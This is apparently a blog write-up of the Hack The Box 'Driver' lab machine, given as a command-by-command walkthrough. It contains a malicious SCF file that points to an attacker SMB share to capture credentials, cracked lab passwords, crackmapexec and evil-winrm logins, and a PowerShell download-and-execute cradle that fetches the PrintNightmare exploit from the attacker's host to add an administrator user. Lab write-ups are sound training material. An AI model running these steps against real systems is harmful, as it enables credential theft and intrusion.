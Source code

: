 ```yaml
---
layout: post
title: HTB Machine - Driver
subtitle: Writeup
cover-img: /assets/img/Scifi.1920x1080.jpg
thumbnail-img: /assets/img/Scifi.1920x1080.jpg
share-img: /assets/img/Scifi.1920x1080.jpg
tags: [ HTB, Malicious DLL, Hack the Box]
---
```

# there is a webpage that we can access with admin:admin credentials.

#Inside the menus there is an option to upload files. When a file that is share locally is open an icon can be loaded from a source, the user will need to authn to get that icon and we can capture those credentials to crack later. We create the scf file with the info below, the ICO file does not have to exist: 

[Shell]
Command=2
IconFile=\\10.10.14.3\SMBfolder\loquesea.ico
[Taskbar]
Command=ToggleDesktop


# Set impacket to spoof a SMB server and capture authN details.

impacket-smbserver SMBfolder $(pwd) -smb2support

# capture the credentials of tony and crack with john

tony:liltony

# Validate the user with crackmapexec (+ left to the user)

crackmapexec smb 10.10.11.106 -u 'tony' -p 'liltony'

# Validate that the user could access through winrm

crackmapexec winrm 10.10.11.106 -u 'tony' -p 'liltony'

# the user is part of remote mgmt users because it says (pwn3d!) in the previous output. WE could connect with winRM

evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'

# once inside. verify user is part of Remote MGMt users with:

net user tony

# and we get user flag. After we cannot gain access to the admin folder so we need to escalate priviledges. We check the priveleges for our user with:

whoami /priv
whoami /all

# How to get to the point you know the printer is the vulnerability?

#We can exploit a printer vuln, a PS script will create a user via a dll. first we need the script. Download it to the attack machine and serve it via a python server.

https://github.com/calebstewart/CVE-2021-1675

#download to the windows machine with the following command:

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/CVE-2021-1675.ps1')

#to execute run the following:

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 

# this will create a user, you can double check with "net user" command. After that in the attacking machine verify the user exist and it works:

crackmapexec winrm 10.10.11.106 -u 'john' -p 'SuperSecure'

#then winrm with it

evil-winrm 10.10.11.106 -u 'john' -p 'SuperSecure'


